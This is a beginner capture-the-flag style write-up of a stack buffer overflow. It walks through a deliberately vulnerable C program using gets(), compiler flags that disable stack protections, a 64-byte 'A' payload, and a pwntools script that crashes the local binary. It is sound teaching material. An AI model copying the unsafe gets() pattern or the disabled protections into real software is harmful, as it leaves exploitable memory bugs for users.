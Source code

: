 ```yaml
---
description: 08/15/2023
---
```


# 0⃣ 00

This is a very beginner-friendly buffer overflow exploit. I hope you enjoy.

> Can you find out how much money you need to send to the bank to make it overflow?
>
> This one is a bit weird... The buffer in the stack gets allocated in a strange way, so you may need to send more than you thought!

## Static Source Code Analysis

````c
```c

#include <stdio.h>
#include <string.h>

int main(void)
{

    int bank[16];

    printf("Welcome to bank 1337! Give us your money: \n");
    gets(bank);
    fflush(stdout);

}
```
````

Compile:

```
gcc 00.c -o 00 -m32 -fno-stack-protector -z execstack -no-pie -g
```

We can see that our bank buffer is storing 16-bytes of data.

<mark style="color:yellow;">It is uses the vulnerable</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`gets()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">function in c to store our input. The reason</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`gets()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">is so dangerous is because it copies all input from STDIN to the buffer without checking size. This allows the user to provide a string that is larger than the buffer size, resulting in an overflow condition. In other words, there are zero checks for our input</mark>.

`fflush(stdout)` is simply just clearing our buffer after use to help the Kernel out for efficiency.

## Exploitation

### Manual Method

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

python2:

```
python2 -c 'print "A" * 64' > payload
```

Exploit:

```
./00 < payload
```

<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

### Automated Method (pwntools)

exploit.py:

```python
from pwn import *

# Set the context for the exploit
context.binary = './00'
context.log_level = 'debug'

# Establish a connection to the binary
p = process('./00')

# Send 64 bytes of 'A' as input
payload = b'A' * 64
p.sendlineafter(":", payload)

# Interact with the binary
p.interactive()
```

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

## `gdb`

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

We can see at this point our A's are being taken from STDIN and being placed onto the stack.

Furthermore, this will result in a segmentation fault, crashing our program due to us overwriting the return address with our A's, overflowing the buffer.&#x20;

